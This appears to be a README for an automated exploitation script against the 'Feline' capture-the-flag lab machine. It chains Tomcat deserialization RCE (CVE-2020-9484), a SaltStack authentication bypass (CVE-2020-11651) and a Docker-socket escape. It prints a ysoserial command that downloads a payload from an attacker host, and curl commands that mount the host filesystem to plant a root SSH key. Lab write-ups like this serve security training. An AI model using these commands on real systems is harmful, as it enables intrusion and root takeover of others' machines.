







# Automated Script to complete the Feline box

```
Nmap scan report for 10.129.4.55
Host is up (0.014s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## User Details:    
* Enumerating on 8080
* We discover file upload functionality. Sample request:
```
POST /upload.jsp?email=test@test.com HTTP/1.1
Host: 10.129.4.55:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.4.55:8080/service/
content-type: multipart/form-data; boundary=---------------------------210752969421274620151563543380
origin: http://10.129.4.55:8080
Content-Length: 231
Connection: close

-----------------------------210752969421274620151563543380
Content-Disposition: form-data; name="image"; filename="test.txt"
Content-Type: text/plain

hleooe

-----------------------------210752969421274620151563543380--
```

* Providing an invalid filename such as "." will reveal juicy info on where uploads are saved

* Based on the error message we can look up the version of apache


### Attack Path
https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
* Exploit has prerequesities in order to be:
    * Need to have fileupload functionality - possible through upload.jsp
    * We need to be able to either know the name of the uploaded file - from the error message know the file is uploaded to /opt/samples/uploads
* To execute our exploit we have to:
    * Generate a serialized payload using ysoserial 
    * Upload the serialized payload in the file upload functionality
    * Provide a name for the file e.g. test.session
    * Modify JSESSIONID such that it points to our file e.g. ../../../../opt/samples/uploads/test
    * Make a follow up request to the site
* Had difficulties executing a reverse shell in one payload, so we can generate three seperate payloads:
    * First one pulls our over curl
    * Chmod +x the file
    * Execute it

### Automated User
* Requirements:
    * Serve content over http.server 
    * Chisel binary in the directory where you run http server
    * Ysoserial jar in the directory where you run the script
    ```
    os.system("""java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections6 'curl http://%s:%s/%s -o /opt/samples/uploads/%s' > %s""" % (attacker_ip,server_port,shellFilename,shellFilename,serialFilename))
    ```
* The automated script will use ysoserial and generate the payloads 
* Then it will make the follow up request to trigger the payload

Running the script with -t user
 

## Intermediate Details:
* We find that a Salt Master is running on 4506
 
* Version is vulnerable to CVE-2020-11651 and use https://github.com/jasperla/CVE-2020-11651-poc
    * Authentication bypass allows us to pull the salt master root key
    * This allows us to arbitrarily issue and execute commands as the salt master

### Attack Path
 
* After gaining access to the tomcat user 
* We pivot to compromise the salt master
* Upon landing on the salt master we have access to the docker daemon. The "docker" executable is not found
* However we can manually issue commands to the docker daemon over unix sockets
* For example, docker run is a combination of the /containers/create and /containers/(id)/start API calls

### Automated Intermediate
* Gains reverse shell as user tomcat
* Downloads chisel binary onto the compromised machine
* Completes chisel tunnel so that we can access port 4506 on our attacking machine
* Initializes salt minion using python salt APIs
* Procures the root key from CVE-2020-11651
* Issues salt commands executed as the master
* Gains reverse shell on the salt master container

Running the script with -t user
 

## Root Details:
* Upon landing on the salt master we have access to the docker daemon. The "docker" executable is not found
* However we can manually issue commands to the docker daemon over unix sockets
* For example, docker run is a combination of the /containers/create and /containers/(id)/start API calls
* We can start our own container, so we can mount host volume 
* Write SSH key to /root/.ssh/authorized_keys
* SSH into the host from the attacker VM as root


### Automation root
* Gains user shell
* Pivots to a shell on the salt master
* Uses paramiko to generate ssh keypairs
* Issues commands to the docker daemon over unix sockets, the payload writes our newly minted public key to /root/.ssh/authorized_keys
```
id=$(curl -s --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "sandbox:latest", "Binds" : ["/:/mnt:rw"] , "Cmd": ["/bin/sh", "-c", "chroot /mnt sh -c \\"%s\\"" ]}' http://localhost/containers/create | cut -d '"' -f4)
```
* Then starts the container
```
curl -X POST -s --unix-socket /var/run/docker.sock http://localhost/containers/${id}/start
```

Running the script with -t root

